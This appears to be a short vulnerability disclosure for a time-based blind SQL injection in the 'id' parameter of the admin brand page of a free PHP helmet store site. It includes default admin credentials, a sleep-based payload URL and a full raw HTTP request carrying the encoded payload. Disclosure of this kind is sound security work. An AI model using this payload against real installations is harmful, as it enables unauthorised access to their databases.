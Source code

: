 # Helmet Store Showroom Site System - SQL injection

Helmet Store Showroom Site exists to contain a SQL injection vulnerability via the 'id' parameter at /hss/admin/brands/manage_brand.php

username:admin password:admin123 ----> {ip}/hss/admin/brands/manage_brand.php

Supplier： https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

/hss/admin/brands/manage_brand.php has SQL injection

Payload: http://localhost/CVE/hss/admin/brands/manage_brand.php?id=1'and(select*from(select+sleep(2))a/**/union/**/select+1)='

SQL injection because $id can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/32.png)

## Payload

```s
GET /CVE/hss/admin/brands/manage_brand.php?id=1%27and%28select%2Afrom%28select%2Bsleep%280%29%29a%2F%2A%2A%2Funion%2F%2A%2A%2Fselect%2B1%29%3D%27 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=n2hadqmvc7m63oc6q677vrodfv
Referer: http://localhost/CVE/hss/admin/?page=brands
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/31.png)

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-11-15/33.png)